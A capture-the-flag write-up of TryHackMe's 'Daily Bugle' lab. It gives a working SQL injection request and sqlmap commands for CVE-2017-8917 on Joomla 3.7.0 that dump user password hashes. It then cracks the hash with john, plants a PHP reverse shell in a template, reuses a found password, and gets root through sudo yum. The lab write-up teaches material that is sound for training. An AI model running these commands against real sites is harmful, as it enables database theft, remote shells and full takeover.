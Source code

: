 ### THM - Daily Bugle

Link to the room: [Daily Bugle](https://tryhackme.com/room/dailybugle)

Difficulty: Hard 

"Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum." - THM

#### Recon

From the introduction of this room, we know that the host is running Joomla CMS. We can do some basic enum on the website to see what we can find.

![wappalyzer](img/wappalyzer.png)

Checked wappalyzer and we can confirm that the website is running Joomla CMS. Let's try to find the version of Joomla. I made a script to find the version of Joomla. You can find it [here](joomla_version.py).

![joomla_version](img/joomla_version.png)

Or you could just pull the version from joomla.xml file. Using curl

 ```curl http://{URI}/administrator/manifests/files/joomla.xml | grep '<version>' ```

![joomla_version_2](img/joomla_version_2.png)

Now we know that the version of Joomla is 3.7.0. Let's try to find the CVE for this version. 

[https://www.cvedetails.com/cve/CVE-2017-8917/](https://www.cvedetails.com/cve/CVE-2017-8917/)

Vulnerability Details : CVE-2017-8917	

"SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors."

Great! We found a CVE for this version of Joomla.

Let's run nmap to see what ports are open on the host. Since this is not a black box, let's practice to not be noisey. 

```sudo nmap -v -sS {IP}```

![nmap1](img/nmap1.png)

 Now, Let's try to exploit it.

#### Exploit

After some research, I found that there are multiple ways to exploit this. By using [python script](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) by stefanlucas, metasploit module, and sqlmap.


**Using the python script.**

![python_script](img/python_script.png)


**Using metasploit module.**

We will be using ```exploit/unix/webapp/joomla_comfields_sqli_rce```

![metasploit_1](img/metasploit_1.png)

![metasploit_2](img/metasploit_2.png)

And we got an unknown error message. Let's look at the source code.

![msf_problem_2](img/msf_problem_2.png)

The module expects some return value after SQLi. Let's look at what request is being sent.

![msf_problem_3](img/msf_problem_3.png)

We can see that the module is sending this sql query ```(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))```


Let's try to send this request manually. Our request will look like thie ```http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2170,CONCAT(0x2e,0x1973508a80,(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x4590478a88),4879))```

Based on the sql query in the request, it looks like it is trying to use TO_BASE64 to convert the table name to base64. However we get "FUNCTION joomla.TO_BASE64 does not exist" error.

![msf_problem_4](img/msf_problem_4.png)

Upon further research, I found that TO_BASE64 is a function in MySQL that was introduced in version 5.6.10. This host is using MariaDB which is a fork of MySQL and I'm assuming that it is using an older version of MariaDB.

![msf_problem_5](img/msf_problem_5.png)

This would explain why we are getting the error. It was probably done on purpose to prevent using metasploit module which would resulted in a shell in one go. OR we can fix this msf module. Let's try to use sqlmap to exploit this.

**Using sqlmap.** [https://www.exploit-db.com/exploits/42033](https://www.exploit-db.com/exploits/42033)

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]```

![sqlmap_1](img/sqlmap_1.png)

![sqlmap_2](img/sqlmap_2.png)

Then we can retrieve the tables with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla --tables```

![sqlmap_3](img/sqlmap_3.png)

Then we can retrieve the columns with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” --columns```

![sqlmap_4](img/sqlmap_4.png)

Then we can dump the data with this command... In this case, we only want to dump the username and password.

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” -C username,password --dump```

![sqlmap_5](img/sqlmap_5.png)

*NOTE - While I was writing this the host timed out so I have to re-launch the host. Notice different host IP* 

Now we have the hash password for the user "jonah". Let's try to crack the hash with JohnTheRipper. I will be using rockyou.txt wordlist and hashid module from hashcat to identify the hash type.

```hashid -m {hash}```

```john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt {HASH_FILE}```

![hash2file](img/hash2file.png)

![hash_type](img/hash_type.png)

![john](img/john.png)

Now that we have the password, let's try to login to the admin panel. According to [Joomla documentation](https://docs.joomla.org/Administrator_(Application)), the default path to access the admin panel is ```/administrator```. Let's try it so we dont have to FUZZ the path.

![joomla_panel](img/joomla_panel.png)

Now we can access the admin panel. Let's try to upload a reverse shell. we will be using this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by pentestmonkey. We will be editing a page from a template with the reverse shell code. In this case, we will use index.php page in the beez3 template.

![template](img/template.png)

![index_edited](img/index_edited.png)

Let's start a netcat listener and access the index page by clicking template preview.

![shell1](img/shell1.png)

Great!! Now we have a shell.

#### Privilege Escalation

Let's import python pty to get a better shell ```python -c 'import pty;pty.spawn("/bin/bash")'``` and do some enumeration. See what we can find.

![enum1](img/enum_1.png)

![enum2](img/enum_2.png)

![configuration_php](img/configuration_php.png)

After some enum, we found a configuration file that contains a password to the database. Let's try to use this password to switch to host user.

![jameson](img/jameson.png)

The password is indeed for the user "jjameson". Let's get user flag and try to escalate privilege. Let's check ```sudo -l``` to see what we can run as root.

![sudo_l](img/sudo_l.png)

Perfect! We can run yum as root. Let's check gtfobins for yum. [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/) We can see that we can use yum to run a shell as root and get root flag.

![root_shell](img/root_shell.png)

![root_flag](img/root_flag.png)


Thank you for reading. I hope you enjoyed this writeup. 



#### Resources
https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website
https://mariadb.com/kb/en/mariadb-1005-release-notes/
https://database.guide/6-ways-to-check-your-mariadb-version/
https://docs.joomla.org/Administrator_(Application)
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
https://gtfobins.github.io/gtfobins/yum/